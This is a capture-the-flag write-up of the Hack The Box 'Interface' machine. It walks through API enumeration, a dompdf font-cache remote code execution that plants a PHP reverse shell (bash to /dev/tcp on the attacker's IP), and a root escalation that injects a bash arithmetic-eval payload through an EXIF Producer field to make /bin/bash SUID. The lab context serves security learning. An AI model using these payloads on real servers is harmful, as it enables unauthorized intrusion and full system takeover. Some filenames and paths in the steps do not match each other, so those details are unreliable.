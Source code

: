
**I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.**

~~~
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
~~~

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point

~~~
http://prd.m.rendering-api.interface.htb
~~~

~~~
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
~~~

Using `curl`, I found some API responses over those endpoints.

~~~
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
~~~

Then I began enumerating the API, by filtering the 404 using a GET request.

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`

~~~
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST...

html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...

~~~

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit:

~~~
https://github.com/positive-security/dompdf-rce
~~~

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two.

~~~
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
~~~

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

~~~
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
~~~

Because the response was `200 OK` and a binary with the attached PDF

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

~~~
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/mrgod.css'>",
	"paper": "A4"
}
~~~

cat mrgod.css

~~~
# mrgod.css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.120/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
~~~

~~~
# mrgod.php, this is a legit font just with 1 line PHP on the bottom
� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6				s

<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.120/4444 0>&1'"); ?>

~~~

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /mrgod.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /mrgod.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results.

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `mrgod_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that.

![[2023-04-26_23-50.png]]




~~~
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/mrgod_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.120] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts

~~~

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it.

I joined some discussions and one of the users mentioned the 
~~~
`# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` -
~~~~

~~~
[https://www.vidarholen.net/contents/blog/?p=716]
~~~


**One liner exploit:**

~~~
cd /var/www && echo -e '#!/bin/bash\nchmod +s /bin/bash' > suid.sh && chmod +x suid.sh && wget http://10.10.14.120/overview.png && mv overview.png /tmp && bash -p -c 'cat /root/root.txt'
~~~

~~~
cd /var/www
~~~

~~~
echo -e '#!/bin/bash\nchmod +s /bin/bash' > suid.sh
~~~

~~~
chmod +x suid.sh
~~~

~~~
wget http://10.10.14.120/overview.png
~~~

~~~
exiftool -Producer='a[$(/tmp/syl/suid.sh>&2)]+42' overview.png
~~~

~~~
mv overview.png /tmp
~~~

~~~
bash -p -c 'cat /root/root.txt
~~~

